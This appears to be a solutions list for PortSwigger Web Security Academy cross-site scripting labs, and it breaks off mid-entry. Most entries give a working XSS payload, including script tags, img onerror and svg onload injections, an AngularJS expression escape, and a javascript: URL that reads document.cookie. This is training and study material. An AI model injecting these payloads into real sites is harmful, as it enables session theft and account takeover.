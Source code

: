 ## Labs

- ##### Lab: Reflected XSS into HTML context with nothing encoded
- ##### Lab: Stored XSS into HTML context with nothing encoded

```html
<script>alert(1)</script>
```

- ##### Lab: DOM XSS in `document.write` sink using source `location.search`

```html
"><svg onload=alert(1)>
```

- ##### Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
product?productId=1&storeId="></select><img src=1 onerror=alert(1)>
```

- ##### Lab: DOM XSS in `innerHTML` sink using source `location.search`

```html
<img src=1 onerror=alert(1)>
```


- ##### Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

```javascript
javascript:alert(document.cookie)
```

- ##### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

```javascript
{{$on.constructor('alert(1)')()}}
```

- ##### Lab: Reflected XSS with some SVG markup allowed

```http
https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```
	
	which URL-decoded corresponds to:
	
```html
https://YOUR-LAB-ID.web-security-academy.net/?search="><svg><animatetransform onbegin=alert(1)>
```

- ##### Lab: Reflected XSS into attribute with angle brackets HTML-encoded

```javascript
"onmouseover="alert(1)
```

- ##### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
	
	Some useful ways of breaking out of a string literal are:
	